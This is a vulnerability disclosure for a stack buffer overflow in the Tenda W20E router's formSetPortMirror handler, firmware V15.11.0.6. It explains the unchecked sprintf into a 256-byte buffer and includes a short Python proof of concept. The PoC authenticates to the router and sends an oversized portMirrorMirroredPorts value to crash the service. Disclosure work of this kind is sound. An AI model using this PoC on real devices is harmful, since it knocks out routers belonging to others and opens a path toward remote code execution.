


# Vulnerability Report: Stack-based Buffer Overflow in Tenda W20E  Router
A stack-based buffer overflow vulnerability has been identified in the `formSetPortMirror` function of the **Tenda W20E** router. By sending a crafted `portMirrorMirroredPorts` parameter, an authenticated attacker can overflow a 256-byte stack buffer, leading to a service crash or Remote Code Execution (RCE).

### Vulnerability Details
**Product Information** 

Product:Tenda W20E Enterprise Router

Affected Version: V15.11.0.6

Vulnerability Type: Stack-based Buffer Overflow


### Description:
The `formSetPortMirror` function handles port mirroring configuration. It retrieves the user-controlled parameter `portMirrorMirroredPorts` and uses `sprintf` to format it into a fixed-size stack buffer `sMibValue` (256 bytes).

The lack of bounds checking on `pMirroredPorts` allows an attacker to provide a string longer than 256 bytes, overwriting the saved Link Register (LR) on the stack.



### Poc



```python
import requests
import base64

host = "192.168.0.1"
s = requests.session()

def trigger_overflow():
    encoded_pwd = base64.b64encode(b"aaaa").decode()
    s.post(f"http://{host}/goform/setQuickCfgWifiAndLogin", data={"sysUserPassword": encoded_pwd})
    
    if not s.cookies.get("user"):
        s.cookies.set("user", "admin") 

    url = f"http://{host}/goform/setPortMirror"
    payload = "A" * 1000
    
    resp = s.post(url, data={"portMirrorMirroredPorts": payload,"portMirrorEn":"true"}, timeout=5)
    print(resp.content)

```